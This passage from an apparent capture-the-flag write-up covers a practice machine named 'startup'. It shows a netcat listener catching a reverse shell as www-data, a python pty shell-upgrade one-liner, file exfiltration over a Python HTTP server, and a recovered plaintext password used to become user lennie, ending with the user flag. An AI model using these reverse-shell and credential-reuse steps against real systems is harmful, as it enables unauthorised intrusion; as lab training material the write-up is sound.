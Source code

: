 Then 'cause I couldn't got any other a/c login I thought of opening the file with wireshark to better understand it. So I went ahead and downloaded the `/suspicious.pcapng`
```zsh
sudo: 3 incorrect password attempts
www-data@startup:/incidents$ python3 -m http.server 8080
python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 ...
10.x.x.x - - [09/Feb/2024 08:18:01] "GET /suspicious.pcapng HTTP/1.1" 200 -
```
> You can use python simple http server to spun up a server quickly to access the dir through browser.
{: .prompt-tip}

I downloaded the pcapng file but before opening it I thought to check that password for the user lennie
```zsh
┌──(kali㉿kali)-[~/transfer]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.X.X.X] from (UNKNOWN) [10.10.23.42] 54316
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:24:34 up  1:44,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
>If target system have python you can use `python3 -c 'import pty;pty.spawn("/bin/bash")'` to get a tty shell
{: .prompt-tip }
```zsh
www-data@startup:/$ cd home
cd home
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root   root   4096 Nov 12  2020 .
drwxr-xr-x 25 root   root   4096 Feb  9 06:41 ..
drwx------  4 lennie lennie 4096 Nov 12  2020 lennie
www-data@startup:/home$ su lennie
su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/home$ cd lennie
cd lennie
lennie@startup:~$ ls
ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt
cat user.txt
THM{03ce3d619b80ccbfb3b7fc81e46c0xxx}
lennie@startup:~$ 
```
This time it WORKED
> Got the user flag THM{03ce3d619b80ccbfb3b7fc81e46c0xxx}
{: .prompt-info }
